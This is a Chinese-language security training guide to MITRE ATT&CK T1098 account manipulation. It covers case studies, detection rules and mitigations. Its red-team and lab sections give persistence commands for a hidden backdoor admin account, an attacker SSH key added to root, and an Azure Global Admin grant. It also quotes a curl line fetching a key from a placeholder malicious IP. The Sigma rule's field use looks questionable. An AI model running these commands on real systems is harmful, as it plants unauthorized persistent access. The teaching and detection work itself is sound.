

# T1098 - 账户操纵

## 一句话通俗理解

攻击者偷到一把钥匙后，不是只用一次——他们会偷偷配几把新钥匙，再给自己办张"永久通行证"，这样即使你换了锁，他们照样进得来。

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者操纵账户权限、凭证、组关系实现持久化访问 |
| 为什么危险？ | 即使初始漏洞修补了，攻击者创建的后门账户依然有效 |
| 谁需要关心？ | 域管理员、IAM 系统运维、云平台管理员 |
| 你的第一步防御 | 定期审计特权账户列表和组成员关系变更 |
| 如果只做一件事 | 监控 Domain Admins / Enterprise Admins 组的成员变更 |

## 难度等级

⭐⭐ 中级：需要了解 Active Directory / 云 IAM 的账户和权限模型，无需编程基础

## 前置知识检查

读这个文件前，你需要知道：
- **账户（Account）**：系统识别用户身份的凭证记录，有用户名+密码（或密钥）
- **组（Group）**：账户的集合，给组授权等于给组内所有账户授权
- **特权组**：Domain Admins（域管理员）、Enterprise Admins（企业管理员）等高权限组
- **SSO**：单点登录，一个账户访问多个系统——账户被操纵后影响面倍增

## 技术描述

### 场景引入

想象一家大公司有 5000 名员工，每人一张门禁卡。某天黑客偷到了普通员工小王的卡，刷进公司后，他没有急着偷东西，而是溜进 IT 部门的办公室，做了三件事：

1. 给小王的卡加了"可进入机房"权限
2. 用小王的身份申请了一张新卡，名字叫"备份服务"
3. 把"备份服务"加进了"超级管理员"组

这样即使公司发现小王卡被盗、注销了原卡，"备份服务"这张新卡依然有效，而且有最高权限。

这就是账户操纵——**不偷数据，先改身份。**

### 通俗比喻

| 操作 | 比喻 | 攻击者目的 |
|------|------|-----------|
| 加权限 | 给自己门禁卡加"机房权限" | 访问原本无权访问的资源 |
| 创建新账户 | 办一张"假员工"门禁卡 | 即使原账户被发现，新账户仍可用 |
| 加进特权组 | 把自己塞进"董事会成员"名单 | 一键获得组所有权限 |
| 改密码/凭证 | 换掉别人的门禁卡密码 | 锁定合法用户、保留访问权 |
| 设后门 SSH 密钥 | 配一把"万能钥匙" | 免密码长期登录 |

### 进阶理解

账户操纵的核心逻辑是**身份系统的"信任传递"**：系统信任已认证的账户，而账户的权限和属性可以被有权限的人修改。攻击者只要拿到一次"修改权限"，就能创建"永久信任"的后门。

**关键操纵手法：**
- **添加权限**：给自己加 `FullControl` / `WriteDacl` 等高权限
- **加入特权组**：AD 中把账户加入 Domain Admins
- **修改凭证**：改服务账户密码、添加 SSH authorized_keys
- **创建后门账户**：新建命名"正常"的账户（如 `backup-svc`）
- **OAuth/SSO 操纵**：在云平台给自己授予 `AppRoleAssignment.ReadWrite.All`

## 子技术列表

T1098 有 7 个子技术：

| 子技术 ID | 名称 | 简述 |
|----------|------|------|
| T1098.001 | Additional Cloud Credentials | 在云平台添加额外凭证 |
| T1098.002 | Additional Email Delegate Permissions | 给邮箱账户加代理权限 |
| T1098.003 | Additional Cloud Roles | 给云账户加额外角色 |
| T1098.004 | SSH Authorized Keys | 添加 SSH 公钥实现免密登录 |
| T1098.005 | Device Registration | 注册设备实现持续 SSO 访问 |
| T1098.006 | Hybrid Identity | 利用本地-云混合身份同步持久化 |
| T1098.007 | Backdoor Cloudflare Tunnel | 通过 Cloudflare 隧道建立后门 |

**详写 2 个最常用的子技术：**

**T1098.003 Additional Cloud Roles**：攻击者在 Azure AD / AWS IAM 中给自己授予高权限角色（如 `Global Administrator` / `AdministratorAccess`）。云平台角色变更即时生效，且审计日志可能被角色权限清除。

**T1098.004 SSH Authorized Keys**：攻击者将自己的公钥写入 `~/.ssh/authorized_keys`，实现免密码 SSH 登录。即使用户改了密码，公钥认证依然有效——这是 Linux 持久化的经典手法。

## 攻击流程



## 真实案例

### 案例1：APT29（Nobelium）在 SolarWinds 攻击中操纵 Azure AD 角色
- **时间**：2020 年 12 月
- **目标**：美国多个政府机构、企业（通过 SolarWinds 供应链攻击）
- **攻击组织**：APT29（俄罗斯 SVR 背景）
- **手法**：通过窃取的 SAML 令牌登录 Azure AD，使用 `New-MgRoleAssignment` 给后门服务账户授予 `Global Administrator` 和 `Application Impersonation` 角色。即使后续 golden SAML 被发现，这些云角色仍保持有效，导致受害者难以彻底清除后门
- **数据来源**：CISA Alert AA21-008A + Microsoft MSTIC 报告（一手官方文档）

### 案例2：Hafnium 在 Exchange 攻击中创建后门账户
- **时间**：2021 年 3 月
- **目标**：全球 3 万+ Exchange 服务器（ProxyLogon 漏洞 CVE-2021-26855）
- **攻击组织**：Hafnium（中国背景 APT）
- **手法**：利用漏洞获取 SYSTEM 权限后，用 `net user` 创建名为 `securityupdate` 的账户，加入 `Administrators` 和 `Exchange Servers` 组，实现双重持久化——既是系统管理员又是 Exchange 管理员
- **数据来源**：Microsoft MSTIC + Volexity 报告（一手厂商报告）

### 案例3：TeamTNT 在 Linux 挖矿中添加 SSH 公钥
- **时间**：2020-2021 年
- **目标**：暴露 Docker API / Kubernetes 集群的云服务器
- **攻击组织**：TeamTNT（加密货币挖矿组织）
- **手法**：入侵后执行 `curl http://恶意IP/pubkey >> ~/.ssh/authorized_keys`，即使管理员发现并改了 root 密码，攻击者仍可通过 SSH 公钥免密登录。同时创建隐藏用户 `sysupdate` 加入 wheel 组
- **数据来源**：Aqua Security / Trend Micro 报告（一手厂商报告）

## 红队视角

### 可持续利用性分析

| 维度 | 评估 | 说明 |
|------|------|------|
| 隐蔽性 | 高 | 新账户命名伪装正常，权限变更在大量日志中易被淹没 |
| 持久性 | 极高 | 账户不被删除则永久有效，即使密码被改 SSH 密钥仍有效 |
| 可移植性 | 极高 | Windows/Linux/云平台全部适用 |
| 检测难度 | 中 | 账户变更可审计，但需关联分析才识别异常 |

### 红队可复制性

```bash
# Windows：创建后门账户并加管理员组
net user backdoor$ P@ssw0rd2026! /add /active:yes
net localgroup Administrators backdoor$ /add
# $ 结尾的账户名在 net user 列表中隐藏

# Linux：添加 SSH 公钥
echo "ssh-rsa AAAA...攻击者公钥..." >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys

# Azure AD：授予 Global Admin（需已有 GA 权限）
Connect-MgGraph -Scopes "RoleManagement.ReadWrite.Directory"
New-MgRoleAssignment -PrincipalId $backdoor.Id -RoleDefinitionId (Get-MgRoleDefinition -Filter "displayName eq 'Global Administrator'").Id -DirectoryScopeId "/"
```

## 蓝队视角

### 用人话说检测

账户操纵检测的核心是**盯紧"身份变更"事件**——新账户创建、组关系变更、权限提升、凭证修改。这些操作在正常运维中频率低且可预测，异常变更往往是攻击信号。

### Sigma 规则

```yaml
title: 检测特权组成员变更
id: 2f9e6b3a-4c5d-4e8f-9a1b-3c7d8e9f0a1b
status: stable
description: 监控 Domain Admins / Enterprise Admins / Administrators 组的成员添加
logsource:
    product: windows
    service: security
detection:
    selection_event:
        EventID: 4728  # 成员加入全局安全组
    selection_group:
        MemberName|contains:
            - 'Domain Admins'
            - 'Enterprise Admins'
            - 'Administrators'
    condition: selection_event and selection_group
falsepositives:
    - 合法的运维操作（需工单审批）
level: high
```

### 命令行检测

```bash
# Windows：查询特权组成员
net group "Domain Admins" /domain
net localgroup Administrators

# 查询最近创建的账户
Get-ADUser -Filter * -Properties whenCreated | Sort-Object whenCreated -Descending | Select-Object -First 10

# 查询所有 SSH authorized_keys（Linux）
find / -name authorized_keys -exec ls -la {} \; 2>/dev/null
# 对比基线，发现新增公钥

# Azure AD：查询 Global Administrator 角色成员
Get-MgDirectoryRoleMember -DirectoryRoleId (Get-MgDirectoryRole -Filter "displayName eq 'Global Administrator'").Id
```

### 关键事件 ID

| EventID | 含义 | 重点关注 |
|---------|------|---------|
| 4720 | 用户账户创建 | 非工作时间创建、命名异常 |
| 4728 | 加入全局安全组 | 加入 Domain Admins |
| 4732 | 加入本地安全组 | 加入 Administrators |
| 4738 | 用户账户修改 | 权限提升、密码重置 |
| 4724 | 密码重置 | 非自助密码重置 |

### 网络层检测
- 监控 LDAP/SAMR 协议的 `AddMemberToGroup` 请求频率异常
- 云平台 API 调用 `AddRoleAssignment` / `AttachRolePolicy` 的异常时间点

## 避坑指南

| 坑 | 说明 | 正确做法 |
|----|------|---------|
| 只盯 Domain Admins | 攻击者可能加进 Exchange Admins / DnsAdmins 等次级特权组 | 监控所有 `Admin` 后缀的组 |
| 忽略 `$` 结尾账户 | `net user` 不显示 `$` 结尾账户 | 用 `Get-ADUser` 或 WMI 查询 |
| 忘记检查 SSH 密钥 | 改了密码但 authorized_keys 仍有攻击者公钥 | 密码修改后必须审计 authorized_keys |
| 云角色变更无告警 | Azure AD 角色变更默认不告警 | 配置 Privileged Identity Management 告警 |
| 忽略服务账户 | 服务账户密码很少改，是持久化金矿 | 服务账户定期轮换 + 托管账户 |

## 检测建议

### 主机层
- **Windows 安全日志**：EventID 4720/4728/4732/4738/4724
- **Linux**：监控 `/etc/passwd`、`/etc/shadow`、`/etc/sudoers`、`~/.ssh/authorized_keys` 变更
- **macOS**：监控 `dscl` / `sysadminctl` 命令执行

### 应用层
- **AD 审计**：启用"账户管理"审核策略
- **云平台**：Azure AD Audit Logs、AWS CloudTrail `iam:*` 事件
- **邮件系统**：监控邮箱代理权限（FullAccess/SendAs）变更

### 网络层
- LDAP/SAMR 协议异常查询模式
- 云 API 调用 `AddRoleAssignment` 的地理位置异常

## 缓解措施

| 措施 | 实施方式 | 效果 |
|------|---------|------|
| 特权访问管理（PAM） | 用 CyberArk / Azure PIM 实现按需提权 | 减少常驻特权账户 |
| 账户定期审计 | 每月导出 AD 账户列表对比基线 | 发现异常新增账户 |
| 服务账户托管 | 用 gMSA 替代手动服务账户 | 自动密码轮换 |
| 多因素认证（MFA） | 所有特权账户强制 MFA | 凭证被盗也难以利用 |
| Just-In-Time 访问 | 临时授权、到期自动回收 | 限制持久化窗口 |
| SSH 密钥管理 | 集中管理公钥、定期轮换 | 防止公钥后门 |

## 动手实验

### 实验1：观察 Windows 后门账户创建

```cmd
:: 1. 创建隐藏账户（$ 结尾）
net user backdoor$ Test123!@# /add

:: 2. 加入管理员组
net localgroup Administrators backdoor$ /add

:: 3. 用 net user 查看（看不到 backdoor$）
net user

:: 4. 用 wmi 查看（能看到）
wmic useraccount where "name like 'backdoor%'" get name,sid

:: 5. 清理
net user backdoor$ /delete
```

**预期输出**：`net user` 不显示 `backdoor$`，但 `wmic useraccount` 显示，证明隐藏账户生效。

### 实验2：观察 SSH 公钥持久化（Linux 虚拟机）

```bash
# 1. 生成测试密钥
ssh-keygen -t rsa -f /tmp/test_key -N ""

# 2. 添加到 authorized_keys
cat /tmp/test_key.pub >> ~/.ssh/authorized_keys

# 3. 修改 root 密码
echo "root:NewPassword123" | chpasswd

# 4. 用公钥仍可登录
ssh -i /tmp/test_key root@localhost

# 5. 清理
sed -i '/test_key/d' ~/.ssh/authorized_keys
```

**预期输出**：改密码后用公钥仍可免密登录，证明 SSH 密钥持久化独立于密码。

### 专用工具

| 工具 | 用途 | 特点 |
|------|------|------|
| BloodHound | AD 攻击路径分析 | 可视化特权路径 |
| Purple Knight | AD 安全态势评估 | 检测后门账户和异常权限 |
| PingCastle | AD 安全评分 | 识别权限配置问题 |
| AADInternals | Azure AD 安全测试 | 云账户操纵检测 |

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| 账户操纵 | 修改账户属性/权限/组关系以维持访问 |
| 特权组 | 拥有高权限的安全组，如 Domain Admins |
| 后门账户 | 攻击者创建的、伪装正常命名的账户 |
| SSH authorized_keys | 存储可免密登录的公钥列表 |
| PAM | Privileged Access Management，特权访问管理 |
| JIT | Just-In-Time，按需临时授权 |
| gMSA | Group Managed Service Account，托管服务账户 |

## 参考资料

### 深入了解
- 📚 [MITRE ATT&CK T1098](https://attack.mitre.org/techniques/T1098/) —— 官方技术页面
- 📚 [MITRE ATT&CK T1098.003 Additional Cloud Roles](https://attack.mitre.org/techniques/T1098/003/)
- 📚 [MITRE ATT&CK T1098.004 SSH Authorized Keys](https://attack.mitre.org/techniques/T1098/004/)

### 动手试试
- 🔧 [BloodHound](https://github.com/BloodHoundAD/BloodHound) —— AD 攻击路径可视化
- 🔧 [Purple Knight](https://www.purpleknights.com/) —— AD 安全评估

### 真实攻击
- 🎯 CISA Alert AA21-008A —— APT29 SolarWinds Azure AD 角色操纵
- 🎯 Microsoft MSTIC Hafnium 报告 —— Exchange 后门账户创建
- 🎯 Aqua Security TeamTNT 报告 —— Linux SSH 公钥持久化

## 版本历史

| 版本 | 日期 | 变更 |
|------|------|------|
| v3.1 | 2026-07-10 | 重写为持久化战术正确内容，修复跨战术污染 |
| v3.0 | 2026-06-15 | 初版 v3.0 风格 |
